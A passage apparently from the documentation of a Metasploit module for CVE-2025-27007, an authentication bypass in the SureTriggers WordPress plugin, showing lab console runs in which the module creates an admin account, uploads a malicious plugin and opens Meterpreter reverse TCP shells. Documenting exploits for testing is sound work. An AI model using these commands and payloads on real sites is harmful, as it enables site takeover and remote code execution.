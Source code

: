 ```plaintext
Computer     : 172.27.0.3
OS           : Debian 12.10 (Linux 6.14.6-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Expected Results (CVE-2025-27007)

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set action CVE-2025-27007
action => CVE-2025-27007
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.82 vulnerable to CVE-2025-27007
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_kbl7m/ajax_awg0f.php...
[*] Sending stage (40004 bytes) to 172.27.0.3
[+] Deleted ajax_awg0f.php
[+] Deleted wp_kbl7m.php
[+] Deleted ../wp_kbl7m
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.27.0.3:52622) at 2025-05-21 19:31:04 +0200

meterpreter > sysinfo
Computer    : 396e678f2510
OS          : Linux 396e678f2510 6.14.6-2-cachyos #1 SMP PREEMPT_DYNAMIC Sat, 10 May 2025 20:09:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://lab:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.8.1
[+] The target appears to be vulnerable. Detected suretriggers 1.0.82 vulnerable to CVE-2025-27007
[*] Resetting access key
[+] Access key reset successful
[+] Admin created: warner:Q0bTyYI43H8g
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_uozfu/ajax_cqg9q.php...
[*] Sending stage (3045380 bytes) to 172.27.0.3
[+] Deleted ajax_cqg9q.php
[+] Deleted wp_uozfu.php
[+] Deleted ../wp_uozfu
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 172.27.0.3:56038) at 2025-05-21 19:33:42 +0200

meterpreter > sysinfo
Computer     : 172.27.0.3
```